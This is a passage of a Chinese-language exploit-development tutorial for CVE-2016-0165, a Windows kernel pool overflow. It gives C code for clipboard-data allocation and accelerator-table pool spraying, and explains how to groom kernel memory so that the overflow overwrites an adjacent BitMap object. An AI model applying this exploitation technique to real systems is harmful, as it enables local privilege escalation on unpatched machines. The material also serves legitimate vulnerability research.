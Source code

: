 ```
        goto exit;
    }
 
    ZeroMemory(pBuffer, dwSize);
    FillMemory(pBuffer, dwSize, 0x41);
 
    hMem = GlobalAlloc(GMEM_MOVEABLE, dwSize);
    if (hMem == NULL)
    {
        ShowError("GlobalAlloc", GetLastError());
        bRet = FALSE;
        goto exit;
    }
 
    CopyMemory(GlobalLock(hMem), pBuffer, dwSize);
 
    GlobalUnlock(hMem);
 
    SetClipboardData(CF_TEXT, hMem);
exit:
    return bRet;
}
```  
  
  
  
让申请的内存块后跟BitMap对象的思路是，申请大量0xF90大的BitMap对象，这样就会在很多新的内存页中留下0x70大小的内存，此时漏洞函数申请的0x70大小的内存块就会每个内存页的最后0x70的字节。此时，该内存的相邻内存就会是相邻内存页，内存页的起始保存的就是BitMap对象。但是，内存中会存在一些0x70大小的空闲内存，为了保证申请的内存页在BitMap对象剩余的0x70字节中就需要通过CreateAcceleratorTable函数来消耗这些空闲的0x70大小的内存，该函数定义如下：  
```
HACCEL CreateAcceleratorTable(LPACCEL lpaccl,
                              int cEntries);
```  
  
  
  
该函数会创建加速表对象，每个对象占8字节，第二个参数cEntries指定创建的加速表对象的个数，当指定为0xD的时候就会创建0xD个加速表对象，占用0x68字节大小，加上POOL_HEADER的大小刚好0x70。这样，我们就可以首先使用加速表对象消耗空间内存，在用加速表对象占用0x70的内存块，释放掉其中的一部分，漏洞函数申请内存的时候就会刚好申请到相应的内存块。  
  
  
上面提到过，为了让漏洞的写入操作可以将BitMap对象的关键成员覆盖为理想的值，需要加入剪切板数据，这里剪切板数据的大小为0xB70。在创建完加速表对象之后，需要释放掉BitMap对象，随后申请0xB70的剪切板数据，再次申请BitMap对象来填充0xF90大小的内存减去剪切板数据大小的内存空间。最终的内存布局要如下图所示：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8G3WVayxh1xe4Vwicic63emUEAt7d0MtWkg4cmHWqQZTMO6v7u5H6TiaUg8myac9IujvzF4KtnYJTuyA/640?wx_fmt=png "")  
  
创建上图内存布局的代码如下：  
```
BOOL CreateObj_CVE_2016_0165()
{
    BOOL bRet = TRUE;
    CONST DWORD dwCount = 4000;
    DWORD i = 0;
    HBITMAP hBitMap[dwCount + 5] = { 0 };
    HACCEL hAccel[dwCount + 5] = { 0 };
 
    // 消耗掉多余0x70的内存空间
    for (i = 0; i < 1000; i++)
    {
        ACCEL accKey[0x0D] = { 0 };
        if (!CreateAcceleratorTableA(accKey, 0x0D))
        {
            ShowError("CreateAcceleratorTableA", GetLastError());
            bRet = FALSE;
            goto exit;
        }
    }
 
```